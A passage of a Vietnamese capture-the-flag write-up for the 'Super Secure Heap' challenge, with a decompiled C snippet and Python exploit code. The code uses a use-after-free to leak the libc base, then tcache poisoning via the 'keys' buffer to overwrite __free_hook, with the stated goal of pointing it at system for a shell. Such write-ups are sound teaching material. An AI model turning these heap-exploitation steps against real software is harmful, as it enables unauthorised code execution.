```c 
  fflush(stdout);
  for ( i = 0; !i; i = menu() )
    ;
  puts("\nThank you for using Super Secure Heap (SSH). Exiting.");
  return 0;
}
```

- chall này khá lạ khi cho ta 2 option keys và content để khai thác
- như cái bài heap khác thì option 1 malloc, 2 là free, 3 là edit, 4 là show


## Exploit
- đầu tiên dùng uaf leak libc trước
- để ý 1 chút thì thấy nếu free content sẽ ko xóa ptr, còn keys thì có, nên t sẽ dùng content để leak libc

```python
# leak libc
add(2, 1280) # c0
add(2, 0x70) # c1
free(2, 0)
libc.address = show(2,0) - 0x1ecbe0
info("libc base: " + hex(libc.address))
```
- có được libc rồi sẽ overwrite __free_hook
- ban đầu mình tính dùng dbf bằng cách free lần đầu xong dùng set xóa ptr rồi free lần nữa để khai thác DBF nhưng mà không thành

![image](https://github.com/gookoosss/CTF/assets/128712571/007837dc-7508-4b5b-9a7e-ccc84639d681)


### Reason

![image](https://github.com/gookoosss/CTF/assets/128712571/97c659c2-f818-4700-995b-f7d1d6e1c7c7)


- đành chuyển hướng khai thác thôi
- nếu để ý thì thấy free keys không xóa con trỏ và set keys cũng ko phải qua hàm secure_stuff(), sử dụng keys ta hoàn toàn có thể thay đổi được các tcache đã free của content, từ đó vừa có count == 2 vừa có tcache là free_hook

![image](https://github.com/gookoosss/CTF/assets/128712571/75f28c65-9073-4885-a48c-e5d3ba6fcbd2)


```python
# free_hook
add(2, 0x70) # c2
free(2, 2)
free(2, 1)
add(1, 0x70) # k0
free(2, 1)
set_key(0, 0x30, p64(libc.sym.__free_hook))
```
- cuối cùng ta khởi tạo cho __free_hook thành system và lấy shell thôi
